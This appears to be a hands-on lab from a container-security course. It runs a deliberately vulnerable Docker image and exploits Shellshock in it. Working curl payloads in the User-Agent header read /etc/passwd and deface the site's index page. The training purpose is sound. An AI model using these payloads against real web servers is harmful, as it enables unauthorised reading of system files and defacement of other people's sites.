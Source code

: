 # **Vulnerable Libraries**

### *Some containers that are often used and available on `DockerHub` are not updated regularly, which results in them having vulnerable packages and libraries. Shellshock(Bashdoor) is one such vulnerability found in older versions of bash that haven't been updated.*

-------

#### Step 1:

* Run an image that is vulnerable to ShellShock on the provisioned server

```commandline
docker run -d -it -p 8080:80 vulnerables/cve-2014-6271
```

* Fetch the public IP of the server

```commandline
serverip
```

-------

#### Step 2:

* Verify that is application is running by accessing it on the browser

```commandline
http://<IP>:8080
```

* Exploit the vulnerability and access `/etc/passwd` of the vulnerable container

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://<IP>:8080/cgi-bin/vulnerable
```

* By exploiting ShellShock, deface the website

```commandline
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'echo \"<html><body><h1> DEFACED! ;) </h1></body></html>\" > /var/www/index.html'" http://<IP>:8080/cgi-bin/vulnerable
```

* Verify by accessing the application on the browser

```commandline
http://<IP>:8080
```

-------

#### Step 3:

* Stop all containers

```commandline
clean-docker
```

---------

### Reading Material/References:
